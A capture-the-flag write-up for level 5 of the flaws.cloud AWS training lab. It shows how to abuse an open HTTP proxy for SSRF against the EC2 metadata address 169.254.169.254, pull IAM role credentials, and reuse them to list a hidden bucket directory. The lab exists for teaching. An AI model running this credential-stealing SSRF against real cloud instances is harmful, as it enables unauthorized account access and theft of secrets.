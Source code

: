 Level 5:  
==========

This EC2 has a simple HTTP only proxy on it. Here are some examples of it's usage:

http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/flaws.cloud/

http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/summitroute.com/blog/feed.xml

http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/neverssl.com/

HTTP may be vulnerable to SSRF (Server-Side Request Forgery) . We can try accessing the metadata

via [http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data](https://www.google.com/url?q=http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data&sa=D&source=editors&ust=1726489833104169&usg=AOvVaw0aqZQ0edoKfSICXc7uMWsS)

169.254.169.254/latest/meta-data is a well known way of accessing the meta data of a service.

[![image27.png](https://i.postimg.cc/fRB12GLt/image27.png)](https://postimg.cc/k2RjDhWq)

Then :

[http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data](https://www.google.com/url?q=http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data&sa=D&source=editors&ust=1726489833104979&usg=AOvVaw04C1meET1WltQNyJY9vcHm)/iam

[![image6.png](https://i.postimg.cc/K82Zhhx0/image6.png)](https://postimg.cc/CzcybtZ8)

[http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data](https://www.google.com/url?q=http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data&sa=D&source=editors&ust=1726489833105811&usg=AOvVaw3jJ7ggdWvk71nw52YEUiOU)/iam/security-credentials/

[![image31.png](https://i.postimg.cc/wBY9H8zW/image31.png)](https://postimg.cc/CR73H2zD)

[http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data](https://www.google.com/url?q=http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data&sa=D&source=editors&ust=1726489833106439&usg=AOvVaw0oW4Hy_REC573I6tCstjv2)/iam/security-credentials/flaws

[![image18.png](https://i.postimg.cc/BvvfJqyB/image18.png)](https://postimg.cc/pm36ZtPm)

We have obtained access keys credentials used to run the IAM access , we can create a profile with cli access 

[![image19.png](https://i.postimg.cc/5tkd0hWd/image19.png)](https://postimg.cc/qtnZDZ7j)

then nano ~/.aws/credentials and add the session token found with the IAM role credentials.

 We are to figure out how to list the contents of the level6 bucket at level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud that has a hidden directory in it.

Using the created profile we list the contents

[![image14.png](https://i.postimg.cc/Fstv0Xdh/image14.png)](https://postimg.cc/MXYg84mL)

the directory is ddcc78ff and with a index.html
